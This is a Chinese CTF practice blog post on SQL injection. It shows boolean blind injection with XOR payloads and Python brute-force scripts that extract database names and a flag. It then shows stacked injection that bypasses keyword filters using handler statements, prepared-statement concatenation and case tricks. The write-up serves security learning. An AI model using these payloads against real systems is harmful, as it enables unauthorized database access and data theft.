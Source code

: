 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(二)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00布尔盲注：
首先进入页面，比较特殊，通常来说都是全都点一下吧，然后框框里的数字点的时候返回的url`/?id=1`引起我的注意，但是我们还是先测试一下登录功能：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/1.jpg?raw=true)  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/2.jpg?raw=true)  
居然用户名出现单引号都直接被揪出来了，那么在这里猜想一下，是否对用户名和密码都进行了严格的过滤，fuzz一下吧：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/3.jpg?raw=true)  
恩看来这里sql注入的可能性很低了，此时那几个框框的url倒是值得去尝试一下，首先填入id=6：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/4.jpg?raw=true)  
咦显示不存在这个表，有点意思，继续测试填入id=7：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/5.jpg?raw=true)  
这个时候回显又不同了，继续测试一下8/9/10，不存在的话会返回error页面，存在的话会返回正常页面：前面提到表，难道是根据id查表，然后回显内容嘛？
鉴于习惯，测试一下id=0：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/6.jpg?raw=true)  
收集到的信息为，id=0：error！！！，这个时候条件符合我们的布尔盲注了，payload构造返回1，就是正常页面，返回0，就是error！！！页面。那么接下来尝试一下子盲注：  
构造payload：`1^1^1`以及`1^0^1`：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/7.jpg?raw=true)
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/8.jpg?raw=true)  
这下子好了，布尔盲注可以进行下一步了：    
手工进行一下`1^(length(select(database())>n)^1`:   
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/9.jpg?raw=true)   
咦怎么不行，那就试试这个语句：`1^(length(database())>1^1`：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/10.jpg?raw=true)   
好成功了，写个小脚本来爆破一下数据库名长度：  
```
# for i in range(1,20):
    #     temp["id"] = "1^(length(database())>"+str(i)+")^1"
    #     r=requests.get(url,temp)
    #     if "ERROR!!!" in r.text:
    #         print("length:"+str(i))
    #         break;
```
结果为：length=4   
那么接下来就开始爆破库名，字段名，：  
payload构造为：    
`1^(ascii(substr((select(database())),%d,1))>%d)^1`  
下面语句稍微修改一下即可爆字段名了：  
`1^(ascii(substr((selcect(group_concat(table_name))from(information_schema.tables)where(table_schema='geek'))),i,1))>m)^1`  
下面的为二分法爆表的字段内容,由于用来做过其他题目，可能部分地方需要自己恰当修改一下，可参考思路(get和post差不多），同样上面爆破字段名，表名，数据库名也用二分法快速爆破：  
```
url = "http://xxxxxxxxx/xxxxx"
temp = {"id":""}
tablename=''
# for i in range(1,50):
    #     low = 31
    #     high =128
    #     mid = (low+high)//2
    #     while(low<high):
    #         temp['id'] = "1^(ascii(substr((select(flag)from(flag)),%d,1))>%d)^1" %(i,mid)
    #         r = requests.post(url,data=temp)
    #         if "Hello" in r.text:
    #             low=mid+1
    #         else:
    #             high=mid
    #         mid = (low + high) // 2
    #     tablename+=chr(mid)
    #     print(chr(mid))
    # print(tablename)
```
**总结一下：**  
 > 本次练习中，用了sql布尔盲注，盲注思维得到了一定的训练，旨在能够准确找到盲注点，通过页面响应判断是否存在以及寻找页面识别点，这样就能进行下去，如果盲注部分使用词汇被过滤，可以查找一下替代的词语，
 许多大表哥也有总结，自己要善于去汲取人家的精华和总结，这样能让自己更快的学习到相关的知识，而不是盲目的去试，到了一定程度相信自己也能很好的掌握技巧。

## 0x01堆叠注入的另外一些用法（强网杯-随便注）：  
首先看看页面：输入0-10看看反馈是些啥，  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/11.jpg?raw=true)  
这里大概说一下情况，就是输入1/2/3这个数字有回显，然后其他数字都会复位为1.接下来测试一下闭合情况，单引号走起：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/12.jpg?raw=true)  
应该是单引号闭合了，尝试了一下1';#和1'#，还有加上and 1=1# 和and 1=2#测试，都是可以正常查询到1，接下来就试堆叠注入(1';select database();#)：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/13.jpg?raw=true)  
这个时候看到正则匹配，select和where都被过滤了，导致联合注入，报错注入，盲注都可能无效，那么想到预编译和另外一种handler语法，刚刚错误回显是mysql数据库。  
使用之前先看看能不能拿到表名，show databases；show tables；构造payload：-1';show tables;#  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/14.jpg?raw=true)  
拿到了，然后尝试handler语法吧,有挺多过程没有展现出来，本次记录重点拓展了其他语法在sql的使用，在查询数据库名，和表名还有字段名的时候还是挺简单的：  
```
handler `1919810931114514` open;
handler `1919810931114514` read first;
handler `1919810931114514` close;
```  
接下来还有预编译的使用：  
Set @try = concat('sele','ct * from `1919810931114514`;');  
Prepare stmt from @try;  
execute stmt;  
deallocate Prepare;  
尝试一下：  
![](https://github.com/z0L1n/pic/blob/master/2002/sql2/15.jpg?raw=true)  
还有过滤，这次是strstr函数，由于此函数不能区分大小写，所以我们进行大小写绕过即可成功达到目的。    
总结一下：我们在sql注入的尝试过程中，目前来说是有这些多样化的方法，在不断的学习中去掌握它，并且理解原理能帮助我们更好的进行测试，在这个菜鸟阶段吧，还是要多多向师傅们学习，挺舒服的，给自己的建议，多点去寻找学习新的知识，勇于去尝试，加油。








